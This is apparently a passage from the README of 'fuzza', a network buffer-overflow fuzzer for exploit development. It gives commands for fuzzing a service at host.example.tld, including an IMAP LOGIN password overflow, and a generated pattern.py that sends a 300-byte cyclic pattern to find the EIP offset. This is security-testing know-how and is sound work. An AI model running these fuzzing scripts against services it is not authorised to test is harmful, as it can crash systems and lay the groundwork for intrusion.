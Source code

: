 The following example sends an ever increasing buffer to host.example.tld at port 4444:
```bash
$ fuzza host.example.tld 4444
```

The following example connects to an IMAP service, waits for its banner and tries to overflow
the password value of `a LOGIN <user> <pass>`:
```bash
$ fuzza -i ':.*' -p 'a LOGIN bob ' host.example.tld 143
```

### Generate

If you have found a potential buffer overflow, it is time to generate your triage scripts with the
same parameter used for finding the overflow.

In the following example you have found a buffer overflow on host.example.tld at port 4444 at
300 characters and can start to generate your files:
```bash
$ fuzza host.example.tld 4444 -l 300 -g output/
```

The scripts will be pre-populated with any command line arguments specified.


#### `pattern.py`

This is the first script you will want to use. It is already pre-populated with characters from
`pattern_create.rb` at length 300. There is no modification required. Simply start your debugger
of choice, watch your application and run `pattern.py` without any arguments. Whatever ends up in
your EIP can be thrown into `pattern_offset.rb` and you have the length of the overflow.
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

pattern = (
    "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9"
    "Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
    "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9"
    "Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
)  # 300 bytes from pattern_create.rb

print('Trying to send %s bytes unique chars...' % (str(len(pattern))))
try:
    s.connect(('host.example.tld', 4444))
    s.send(str2b('' + pattern + '' + '\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```
